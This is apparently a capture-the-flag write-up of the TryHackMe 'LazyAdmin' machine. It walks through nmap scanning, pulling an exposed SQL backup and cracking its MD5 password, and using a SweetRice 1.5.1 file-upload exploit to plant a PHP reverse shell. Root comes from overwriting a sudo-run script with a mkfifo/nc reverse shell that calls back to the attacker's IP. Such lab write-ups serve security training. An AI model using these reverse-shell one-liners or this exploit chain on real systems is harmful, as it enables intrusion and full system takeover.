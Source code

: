 # LazyAdmin

**IP:** 10.10.109.207  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 06/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.109.207 -oA nmap/LazyAdmin
```

| Port | Service | Version |
|------|---------|---------|
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80 | http | Apache httpd 2.4.18 |

## Enumeration

Found a backup of the sql database at `inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`.
```bash
wget -q http://10.10.109.207/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql;ls

mysql_bakup_20191129023059-1.5.1.sql
```

## Exploitation

Found username `manager` and an md5 password `42f749ade7f9e195bf475f37a44cafcb` in the `.sql` file and cracked it with CrackStation to reveal the password `Password123`.
```bash
grep "passwd" mysql_bakup_20191129023059-1.5.1.sql | sed 's/;[ ]*/;\n/g'

...
s:5:\\"admin\\";
s:7:\\"manager\\";
s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
s:5:\\"close\\";
i:1;
s:9:\\"close_tip\\";
...
```
![[Pasted image 20250606212408.png]]
The dashboard revealed the version is `1.5.1`, I searched it on `searchsploit` and found an Arbitrary File Upload vulnerability `40716`.
```
searchsploit sweetrice 1.5.1
...                                                                         | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                        ...
searchsploit -m 40716 
```

Used the exploit to upload a php reverse shell as `www-data`.
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.109.207/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : shell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.109.207/content/attachment/shell.php5
                       
rlwrap nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.23.121.106] from (UNKNOWN) [10.10.109.207] 46742
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 23:32:24 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```

User flag was in `/home/itguy/user.txt`.
```bash
cat /home/itguy/user.txt
```

## Privilege Escalation

`www-data` could run a Perl script `/home/itguy/backup.pl` as sudo with NOPASSWD. This script just ran another script, `/etc/copy.sh`, which was conveniently already a reverse shell. 
```bash
sudo -l
...
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

I wrote over that with my own reverse shell and ran it as sudo to get a shell as `root`.
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.23.121.106 9002 >/tmp/f' > /etc/copy.sh  

sudo /usr/bin/perl /home/itguy/backup.pl

id
uid=0(root) gid=0(root) groups=0(root)
```

root flag was in `/root/root.txt`.
```bash
cat /root/root.txt
```

---
#nmap #searchsploit #fileupload #sweetrice #reverseshell #sudo-privesc #md5crack #http-enum #linux-privesc #thm